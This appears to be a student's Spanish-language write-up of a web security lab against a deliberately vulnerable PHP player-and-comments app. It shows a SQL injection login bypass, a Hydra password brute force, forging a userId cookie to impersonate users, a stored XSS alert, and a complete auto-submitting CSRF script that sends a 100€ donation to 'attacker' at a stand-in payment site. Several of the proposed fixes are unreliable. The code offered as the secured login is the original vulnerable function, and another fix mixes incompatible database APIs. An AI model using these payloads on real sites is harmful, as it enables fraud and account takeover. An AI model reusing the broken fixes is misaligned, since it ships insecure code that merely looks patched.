

# HE PROYECTO 8 WEBAPP

## Parte 1

#### La página no permite añadir jugadores a usuarios no autenticados, un formulario nos exige que introduzcamos un usuario y contraseña válidos. Lo primero que haremos es comprobar que este formulario es vulnerable a una inyección y aprovecharlo para saltarnos esta protección.

#### a) Dad un ejemplo de combinación de usuario y contraseña que provoque un error en la consulta SQL generada por este formulario. Apartir del mensaje de error obtenido, decid cuál es la consulta SQL que se ejecuta, cuál de los campos introducidos al formulario utiliza y cuál no.

Lo primero que queremos observar es, una vez en el formulario de autenticación de para insertar jugadores (**192.168.1.138/web/insert_player.php**), es si la pantalla de inicio de sesión nos permite una inyección SQL simple, teniendo los dos campos de “Usuario” y “Contraseña”. Lo primero que he comprobado es usar esta secuencia en el campo “Usuario”, sin rellenar el otro campo: 

`admin" OR 1=1` 


Como se puede apreciar arriba, este campo de “Usuario” es vulnerable a una inyección, y se puede provocar un error con solo las comillas (”) al principio, sin importar que otra sentencia lleve el campo, ya que este dará error igual, generando esta consulta: `Invalid query: SELECT userId, password FROM users WHERE username = "admin" OR 1=1". Field user introduced is: " OR 1=1` 

| Escribo los valores                                 | " OR 1=1                                                      |
| --------------------------------------------------- | ------------------------------------------------------- |
| En el campo                                         | Usuario                                                    |
| Del formulario de la página                         | http://192.168.1.138/insert_player.php#                    |
| La consulta SQL que se ejecuta es                   | SELECT userId, password FROM users WHERE username = "admin" OR 1=1" |
| Campos del formulario web utilizados en la consulta SQL | Usuario                                                    |
| Campos del formulario web **no** utilizados en la consulta SQL  | Contraseña                                                |

#### b) Gracias a la SQL Injection del apartado anterior, sabemos que este formulario es vulnerable y conocemos el nombre de los campos de la tabla “users”. Para tratar de impersonar a un usuario, nos hemos descargado un diccionario que contiene algunas de las contraseñas más utilizadas (se listan a continuación):

En este caso utilizar fuerza bruta con el diccionario de contraseñas a la vez con otro de usuarios escogido de una “big-list” obtenida por internet puedes ser una de las mejores opciones. Para ello utilicé hydra de la siguiente manera:


| Explicación del ataque                             | Trata de un ataque que realiza múltiples intentos de acceso, en cada uno de los cuales se prueba una contraseña distinta del diccionario suministrado en la actividad. Con Hydra, se busca hacer coincidir un nombre de usuario de la lista que se posea, con cada contraseña del diccionario brindado.  |
| --------------------------------------------------- | ------------------------------------------------------- |
| Campo de usuario con que el ataque ha tenido éxito | luis                                                                                                                                                                                                                                                                                                  |
| Campo contraseña con el que el ataque tiene éxito  | 1234                                                                                                                                                                                                                                                                                                                   |

#### c) Si vais a private/auth.php**,** veréis que en la función “areUserAndPasswordValid”, se utiliza “SQLite3::escapeString()”, pero, aun así, el formulario es vulnerable a SQL Injections, explicad cuál es el error de programación de esta función y como lo podéis corregir.

**Explicación del error:** El código es vulnerable a inyecciones SQL debido a la concatenación directa de la entrada del usuario en la consulta SQL. Aunque se usa **"SQLite3::escapeString()"**, no es suficiente para prevenir todas las inyecciones SQL.

Solución: Cambiar la línea con el código …   

```php
function areUserAndPasswordValid($user, $password) {
	global $db, $userId;

    $query = SQLite3::escapeString('SELECT userId, password FROM users WHERE username = "' . $user . '"');
	$result = $db->query($query) or die ("Invalid query: " . $query . ". Field user introduced is: " . $user);
	$row = $result->fetchArray();
	if ($password == $row['password'])
	{
		$userId = $row['userId'];
		$_COOKIE['userId'] = $userId;
		return TRUE;
	}
	else
		return FALSE;
  }
```
  
 … Por la siguiente línea …    

 ```php
 function areUserAndPasswordValid($user, $password) {
	global $db, $userId;

    $query = $db->prepare('SELECT userId, password FROM users WHERE username = :user');
    $query->bindValue(':user', $user, SQLITE3_TEXT);

	$result = $query->execute();
	$row = $result->fetchArray();

	if ($password == $row['password'])
	{
		$userId = $row['userId'];
		$_COOKIE['userId'] = $userId;
		return TRUE;
	}
	else
		return FALSE;
}
```

#### d) Si habéis tenido éxito con el apartado b)***,*** os habéis autenticado utilizando elusuario “luis” (si no habéis tenido éxito, podéis utilizar la contraseña “1234” para realizar este apartado). Con el objetivo de mejorar la imagen de la jugadora “Candela Pacheco”, le queremos escribir un buen puñado de comentarios positivos, pero no los queremos hacer todos con la misma cuenta de usuario.

#### Para hacer esto, en primer lugar habéis hecho un ataque de fuerza bruta sobre eldirectorio del servidor web (por ejemplo, probando nombres de archivo) y habéis encontrado el archivo “add_comment.php~”. Estos archivos seguramente se han creado como copia de seguridad al modificar el archivo “.php” original directamente al servidor. En general, los servidores web no interpretan (ejecuten) los archivos “.php~” sino que los muestran como archivos de texto sin interpretar.

#### Esto os permite estudiar el código fuente de “add_comment.php” y encontrar una vulnerabilidad para publicar mensajes en nombre de otros usuarios. ¿Cuál es esta vulnerabilidad, y cómo es el ataque que utilizáis para explotarla?

| Vulnerabilidad detectada … |  Esta se encuentra en la forma en que se manejan los datos del usuario, sabiendo que el código utiliza directamente los valores de **`$_GET['id']`** y **`$_COOKIE['userId']`** en la consulta SQL sin ninguna validación o saneamiento adecuado, lo cual lleva a la posibilidad de un ataque de inyección SQL.  |
| --------------------------------------------------- | ------------------------------------------------------- |
| Descripción del ataque … |  Se puede manipular la cookie ‘userId’ en su navegador para hacerse pasar por otro usuario, ya que el código no verifica si el ‘userId’ de la cookie corresponde al usuario que actualmente está autenticado, lo cual permitiría a este publicar comentarios en nombre de otro usuario simplemente cambiándole el valor. Un ejemplo de ataque es este:<br>`document.cookie = "userId=ID_DEL_USUARIO_OBJETIVO";`<br>Una vez que esta cookie manipulada, se podrá comentar en el formulario a nombre del objetivo indicado, terminando publicado con su ID.|
| ¿Cómo podemos hacer que sea segura esta entrada?  |  Se podría hacer un saneamiento de la entrada, limpiando los datos de entrada para evitar ataques de inyección SQL. Aquí abajo un ejemplo de lo que habría que cambiar dentro del primer “if”:<br>
```php
$body = $db->escapeString($_POST['body']);
$playerId = $db->escapeString($_GET['id']);
$userId = $db->escapeString($_COOKIE['userId']);
```


## Parte 2

#### a) Para ver si hay un problema de XSS, crearemos un comentario que muestre un alert de Javascript siempre que alguien consulte el/los comentarios de aquel jugador (show_comments.php). Dad un mensaje que genere un «alert» de Javascript al consultar el listado de mensajes.

| Introduzco el mensaje … | `<script>alert(”prueba-JS”)</script>`  <br>Con el siguiente resultado al entrar en los comentarios de Jairo Valenzuela (con id=1):   |
 | --------------------------------------------------- | ------------------------------------------------------- |
| En el formulario de la página … |  [http://192.168.1.140/web/add_comment.php?id=1](http://192.168.1.140/web/add_comment.php?id=1)  |

#### b) Por qué dice "&" cuando miráis un link(como el que aparece a la portada de esta aplicación pidiendo que realices un donativo) con parámetros GET dentro de código HTML si en realidad el link es sólo con "&" ?

| Explicación |  En el contexto de las URLs y los parámetros GET, el símbolo “&” se usa para separar los distintos parámetros en la consulta, teniendo en cuenta que en el link `http://www.donate.co/?amount=100&destination=ACMEScouting/`, hay dos parámetros: `amount` y `destination`, y están separados por `&`.<br>Usar este símbolo puede causar confusión la gran mayoría de veces en HTML porque `&` también se utiliza para iniciar las propias entidades HTML (que son secuencias de caracteres que representan caracteres especiales). Para evitar confundirnos y asegurar que el HTML se renderice correctamente, el carácter `&` en las URLs se representa como `&amp;` dentro del código HTML.  | 
| --------------------------------------------------- | ------------------------------------------------------- |

#### c) Explicad cuál es el problema de show_comments.php, y cómo lo arreglaríais. Para resolver este apartado, podéis mirar el código fuente de esta página.

| ¿Cuál es el problema? |  La vulnerabilidad radica en cómo se utiliza directamente la entrada del usuario (**$_GET['id']**) en la consulta SQL, permitiendo que cualquier persona pueda manipular el parámetro 'id' en la URL y alterar la consulta en sí misma. Como resultado, esto podría conducir a la exposición de información sensible, alteración de datos o incluso a su eliminación. |
| --------------------------------------------------- | ------------------------------------------------------- |
| Sustituyo el código de la/las líneas … |  `$query = "SELECT commentId, username, body FROM comments C, users U WHERE C.playerId =".$_GET['id']." AND U.userId = C.userId order by C.playerId desc";`   Dentro de la primera sentencia “if” de la lista de commentarios.  |
| … por el siguiente código … |  `$id = intval($_GET['id']);$query = "SELECT commentId, username, body FROM comments C, users U WHERE C.playerId = $id AND U.userId = C.userId order by C.playerId desc";`  De esta manera, si un atacante intenta pasar una cadena que contiene código SQL malicioso, la secuencia **`intval()`** lo convertirá a **`0`**, lo que hará que el ataque de inyección SQL sea ineficaz.  |

#### Descubrid si hay alguna otra página que esté afectada por esta misma vulnerabilidad. En caso positivo, explicad cómo lo habéis descubierto.

| Otras páginas afectadas … |  Otra página en la que he encontrado el mismo problema que en el anterior código, es en “insert_player.php”, en el cual podemos insertar un script como el anterior utilizado, para mandar una alerta con el nombre “prueba-JS2”:<br>  |
| --------------------------------------------------- | ------------------------------------------------------- |
| ¿Cómo lo he descubierto? |  Probando el mismo script anterior y posteriormente mirando en el código de la página, en el cual se puede ver perfectamente el uso de la variable **"$_GET['id']"**  otra vez, en un query de las mismas características dentro de la sección de modificación o añadido de jugadores nuevos.  |

## Parte 3

#### a) En el ejercicio 1, hemos visto cómo era inseguro el acceso de los usuarios a la aplicación. En la página de ”register.php” tenemos el registro de usuario. ¿Qué medidas debemos implementar para evitar que el registro sea inseguro? Justifica esas medidas e implementa las medidas que sean factibles en este proyecto.

Dos medidas:

Uso de **consultas preparadas**, lo cual permitiría separar la lógica de la consulta SQL de los datos de entrada, evitando que el contenido de las variables sea interpretado como un propio código SQL.

Justificación:

- Separan la lógica de la consulta de los datos, lo que significa que los datos se tratan siempre como simples valores y no como parte de la consulta SQL.
- Previenen la ejecución de código malicioso introducido por el usuario.

Aunque el problema principal aquí es la inyección, también es una buena práctica escapar cualquier dato que se imprima en HTML para evitar XSS, utilizando unas buenas prácticas de **escapado de datos de salida**.

¿Por qué?:

- Por ejemplo, las contraseñas deberían ser almacenadas de manera segura utilizando técnicas de hashing, como `password_hash`, que aplica un hash seguro, protegiendo las contraseñas incluso si la base de datos se ve comprometida.

He aquí el código corregido con las medidas establecidas:

```php
<?php
require_once dirname(__FILE__) . '/private/conf.php';

if (isset($_POST['username']) && isset($_POST['password'])) {
  
    $username = $_POST['username'];
    $password = $_POST['password'];
    
    # Hasheo de la contraseña
    $hashed_password = password_hash($password, PASSWORD_BCRYPT);

    # Aquí un buen query para insertar datos de manera segura
    $query = $db->prepare("INSERT INTO users (username, password) VALUES (?, ?)");
    $query->bind_param('ss', $username, $hashed_password);
    
    if ($query->execute()) {
        header("Location: list_players.php");
        exit();
    } else {
        die("Invalid query");
    }
}
?>
# Aquí iría la parte HTML para no prolongarlo
```

#### b) En el apartado de login de la aplicación, también deberíamos implantar una serie de medidas para que sea seguro el acceso, (sin contar la del ejercicio 1.c). Como en el ejercicio anterior, justifica esas medidas e implementa las que sean factibles y necesarias (ten en cuenta las acciones realizadas en el “register”). Puedes mirar en la carpeta ”private”

He aquí unas cuantas medidas:

1. Verificación segura de contraseñas: Utilizar `password_verify` en lugar de comparar las contraseñas directamente.
2. No almacenar contraseñas en cookies: Nunca se deben almacenar contraseñas en cookies por razones de seguridad.
3. Uso de sesiones para la autenticación: Las sesiones son más seguras para mantener el estado de autenticación del usuario.

Justificación:

1. Verificación segura de contraseñas: `password_verify` compara una contraseña en texto plano con un hash seguro.
2. No almacenar contraseñas en cookies: Las cookies pueden ser fácilmente comprometidas, exponiendo las contraseñas.
3. Uso de sesiones: Las sesiones almacenan datos en el servidor, lo que es más seguro que almacenar datos sensibles en cookies del cliente.

```php
<?php
require_once dirname(__FILE__) . '/conf.php';

$userId = FALSE;

# Se mira si la pareja de Usuario y Contraseña son válidas, devolviendo un "true" si es válida..
function areUserAndPasswordValid($user, $password) {
	global $db, $userId;

    $query = SQLite3::escapeString('SELECT userId, password FROM users WHERE username = "' . $user . '"');

	$result = $db->query($query) or die ("Invalid query: " . $query . ". Field user introduced is: " . $user);
	$row = $result->fetchArray();

	if ($password == $row['password'])
	{
		$userId = $row['userId'];
		$_COOKIE['userId'] = $userId;
		return TRUE;
	}
	else
		return FALSE;
}

# On login
if (isset($_POST['username']) && isset($_POST['password'])) {		
	$_COOKIE['user'] = $_POST['username'];
	$_COOKIE['password'] = $_POST['password'];
}

# On logout
if (isset($_POST['Logout'])) {
	# Delete cookies
	setcookie('user', FALSE);
	setcookie('password', FALSE);
	setcookie('userId', FALSE);
	
	unset($_COOKIE['user']);
	unset($_COOKIE['password']);
	unset($_COOKIE['userId']);

	header("Location: index.php");
}

# Se checkea el usuario y la contraseña
if (isset($_COOKIE['user']) && isset($_COOKIE['password'])) {
	if (areUserAndPasswordValid($_COOKIE['user'], $_COOKIE['password'])) {
		$login_ok = TRUE;
		$error = "";
	} else {
		$login_ok = FALSE;
		$error = "Invalid user or password.<br>";
	}
} else {
	$login_ok = FALSE;
	$error = "This page requires you to be logged in.<br>";
}

if ($login_ok == FALSE) {

?>
```

#### c) Volvemos a la página de ”register.php”, vemos que está accesible para cualquier usuario, registrado o sin registrar. Al ser una aplicación en la cual no debería dejar a los usuarios registrarse, qué medidas podríamos tomar para poder gestionarlo e implementa las medidas que sean factibles en este proyecto.

Para restringir este acceso al registro de nuevos usuarios y asegurar que solo usuarios autorizados puedan registrar otros nuevos, se va implementar un s**istema de autenticación y autorización,** en el cual solo los usuarios con privilegios específicos (por ejemplo, administradores) deberían poder acceder a la página de registro, añadiendo un sistema de autenticación que verifique si el usuario está logueado y si tiene los privilegios necesarios para registrar nuevos usuarios y por último utilizando sesiones para gestionar el estado de autenticación del usuario.

**Redirección de usuarios no autorizados**: Si un usuario no autorizado intenta acceder a la página de registro, debe ser redirigido a otra página, como la página de inicio de sesión o una página de error, esto verificando el estado de autenticación del usuario al inicio del script y redirigiéndolo si no tiene los privilegios necesarios.

```php
session_start();

# Verificar las credenciales del usuario y establecer la sesión
if (areUserAndPasswordValid($username, $password)) {
    $_SESSION['userId'] = $userId;
    $_SESSION['username'] = $username;
    $_SESSION['isAdmin'] = checkIfUserIsAdmin($userId);  # Esta función debería verificar en la base de datos si el usuario es administrador
    header("Location: list_players.php");
    exit();
}

function checkIfUserIsAdmin($userId) {
    global $db;
    $query = $db->prepare('SELECT isAdmin FROM users WHERE userId = ?');
    $query->bind_param('i', $userId);
    $query->execute();
    $result = $query->get_result();
    $row = $result->fetch_assoc();
    return $row['isAdmin'];
}
```

#### d) Al comienzo de la práctica hemos supuesto que la carpeta ”private” no tenemos acceso, pero realmente al configurar el sistema en nuestro equipo de forma local. ¿Se cumple esta condición? ¿Qué medidas podemos tomar para que esto no suceda?

Una medida sería denegar el acceso a los archivos de la carpeta “private” (con extensión PHP, SH Y DB, que son los 4 archivos importantes) creando un archivo “.htaccess” en la misma carpeta con el siguiente contenido:

```php
<FilesMatch "\.(php|sh|db)$">
    Require all denied
</FilesMatch>
```

También podríamos aumentar la seguridad simplemente moviendo los archivos sensibles fuera del directorio raíz del servidor web.

Por último también una revisión a los permisos de los archivos, para en caso de que estos tengan permisos bajos, sean modificados a unos más seguros y limitados, minimizando todo riesgo de acceso no autorizado (chmod).

#### e) Por último, comprobando el flujo de la sesión del usuario. Analiza si está bien asegurada la sesión del usuario y que no podemos suplantar a ningún usuario. Si no está bien asegurada, qué acciones podríamos realizar e implementarlas.

Se podría utilizar la función ”session_regenerate_id()” para regenerar el ID de sesión después de un cierto período de tiempo o después de ciertos eventos, como el inicio de sesión. Esto puede ayudar a prevenir ataques de secuestro de sesión. Este es lo que se le ha añadido al código:

```php
<?php
require_once dirname(__FILE__) . '/private/conf.php';
session_start();

# aquí la regeneración de ID de sesión
if (!isset($_SESSION['Creado'])) {
    $_SESSION['Creado'] = time();
} else if (time() - $_SESSION['Creado'] > 1800) {
    // si la sesison se empezo hace más de 30 minutos
    session_regenerate_id(true);    // cambia la ID de sesión actual e invalida la antigua
    $_SESSION['Creado'] = time();  // aquí la actualización de la hora de creación
}

# más abajo el resto del código
```

## Parte 4

#### ¿Qué medidas de seguridad implementaríais en el servidor web para reducir el riesgo a ataques?

1. **Actualizaciones regulares a la última versión** del ****servidor Apache y de todos los paquetes relacionados, ya que estas suelen incluir parches de seguridad para vulnerabilidades conocidas.
2. Utilizar **SSL/TLS** para encriptar la comunicación entre el servidor y los clientes. Esto protege la confidencialidad e integridad de los datos transmitidos entre el servidor y los clientes.
3. Asegurarse de que el sistema operativo esté configurado de manera segura. Esto incluye cosas como mantener el sistema operativo actualizado, utilizar un **firewall** y **limitar** los **privilegios** de los usuarios del sistema.
4. Mantener un **registro de todas las actividades** en el servidor y **revisar** regularmente **los registros** (logs) en busca de signos de actividad sospechosa.
5. Considerar la posibilidad de utilizar un **servicio de protección contra DDoS** para proteger el servidor de ataques de denegación de servicio.
6. Por último y no menos importante, **realizar copias de seguridad regulares** del servidor completo para asegurar una recuperación rápida en caso de un ataque.

## Parte 5

#### Ahora ya sabemos que podemos realizar un ataque XSS. Hemos preparado el siguiente enlace: [http://web.pagos/donate.php?amount=100&receiver=attacker,](http://web.pagos/donate.php?amount=100&receiver=attacker) mediante el cual, cualquiera que haga click hará una donación de 100€ al nuestro usuario (con nombre 'attacker') de la famosa plataforma de pagos online 'web.pagos' (Nota: como en realidad esta es una dirección inventada, vuestro navegador os devolverá un error 404).

#### a) Editad un jugador para conseguir que, en el listado de jugadores (list_players.php) aparezca, debajo del nombre de su equipo y antes de “(show/add comments)” un botón llamado “Profile” que corresponda a un formulario que envíe a cualquiera que haga clic sobre este botón a esta dirección que hemos preparado.

Editamos al jugador con ID=1, es decir, Jario Valenzuela, y en el campo de “Team name” introduzco lo siguiente:


Aquí se ve como se expone correctamente el botón en la lista del jugador.


#### b) Una vez lo tenéis terminado, pensáis que la eficacia de este ataque aumentaría si no necesitara que el usuario pulse un botón. Con este objetivo, cread un comentario que sirva vuestros propósitos sin levantar ninguna sospecha entre los usuarios que consulten los comentarios sobre un jugador (show_comments.php).

Voy a usar una imagen de carga automática en lugar de un formulario. Este método funciona al cargar una URL con unos parámetros específicos a través de la etiqueta “”, lo que provoca que el navegador haga una solicitud GET a la URL del ataque. Aquí un ejemplo más simple:

```php
<!-- Script de ataque CSRF -->


```

Básicamente utilizo esta etiqueta  para cargar automáticamente la URL del ataque. La imagen no se muestra en la página gracias a style="display:none", pero el navegador igualmente realizará una solicitud a la URL especificada en el source, realizando una solicitud GET a esta URL automáticamente cuando la página se carga.

#### c) Pero 'web.pagos' sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.

#### Explicad qué condición se tendrá que cumplir para que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).

El **usuario** debe estar **actualmente autenticado** y tener una sesión activa en web.pagos, lo cual significa que el usuario debe haber iniciado sesión y el navegador debe tener una **cookie de sesión válida** que identifique al usuario en este sitio.

Y no solo eso, sino que la sesión del usuario no debe haber expirado, ya que en tal caso, el sitio no procesará la solicitud CSRF porque la autenticación del usuario no será válida y fallará.

#### d) Si 'web.pagos' modifica la página 'donate.php' para que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.

Modificar la página de donaciones para que reciba los parámetros a través de POST en lugar de GET no blinda completamente el sitio contra ataques CSRF. Aunque el uso de métodos POST para enviar datos sensibles sea útil, los ataques de este tipo pueden seguir siendo posibles si no se implementan medidas adicionales de protección, como los tokens CSRF.

A continuación un ejemplo, donde te muestro cómo se puede realizar un ataque CSRF enviando los parámetros amount y receiver a través de POST. El método consiste en crear un formulario oculto que se envía automáticamente cuando se carga la página:

```php
 <script>
        // Script de ataque CSRF que se ejecutará al cargar la página
        window.onload = function() {
            // Crear un formulario oculto
            var form = document.createElement('form');
            form.method = 'POST';
            form.action = 'http://web.pagos/donate.php';

            // Crear el campo de entrada para amount
            var amountField = document.createElement('input');
            amountField.type = 'hidden';
            amountField.name = 'amount';
            amountField.value = '100';
            form.appendChild(amountField);

            // Crear el campo de entrada para receiver
            var receiverField = document.createElement('input');
            receiverField.type = 'hidden';
            receiverField.name = 'receiver';
            receiverField.value = 'attacker';
            form.appendChild(receiverField);

            // Añadir el formulario al cuerpo del documento y enviarlo automáticamente
            document.body.appendChild(form);
            form.submit();
        };
    </script>
```
